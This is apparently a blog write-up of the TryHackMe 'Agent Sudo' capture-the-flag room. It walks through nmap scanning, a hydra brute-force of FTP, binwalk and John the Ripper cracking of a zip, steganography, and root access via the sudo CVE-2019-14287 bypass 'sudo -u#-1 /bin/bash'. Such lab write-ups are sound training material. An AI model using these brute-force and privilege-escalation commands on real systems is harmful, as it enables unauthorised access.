


# Agent sudo writeup

Hello everyone,

Today we are going to solve agent sudo room from Tryhackme. we will learn about user-agent, zip2john and CVE-2019-14287


<!--truncate-->

## nmap results

```bash
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| 256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|\_ 256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|\_http-server-header: Apache/2.4.29 (Ubuntu)
|\_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## dirsearch results

```bash
[10:34:41] 200 - 218B - /index.php
[10:34:52] 403 - 277B - /server-status
```

---

--> got this in default page :



--> after reading hint i know that we have to change the user agent to C so i tried it and found another text on thich i got the username of agent C


---

## FTP

--> Let's brute force the password of FTP using hydra

```c
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.34.127
```

--> i got the password for chris


--> i got this files in ftp


--> got this in To_AgentJ file

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

---

## Stegnography

--> i used binwalk to extract the data of cutie.png and found some files


--> let's extract these files using -e flag

```
binwalk -e cutie.png
```

--> for this we have to locate zip2john which is similar to ssh2john so Let's run this and store the output in decrypted file !

```
locate zip2john
/usr/sbin/zip2john 8702.zip > decrypted
john --wordlist=/usr/share/wordlist/rockyou.txt decrypted
```

--> and i got the password !


--> i found this txt file after extracting the zip file !

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

--> after decrypting that word i found the stego password which was Area51


--> i got message.txt file with that passphrase so Let's read that file !


--> and i got the ssh password for james in that file !

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

---

## Image stegno

--> i got this image in home directory


--> then i watched hint and found one article on foxnews.com


--> so we answered all questions so let's do privesc now !

---

## Privesc

--> first of all i done sudo -l and found one interesting thing :



--> this line looks weird so i copied it and pasted it on google and found one exploit for this on exploitdb.com


--> also i got CVE number from exploit-db


--> so the exploit was like :

```
sudo -u#-1 /bin/bash
```

--> and i got root shell !

---
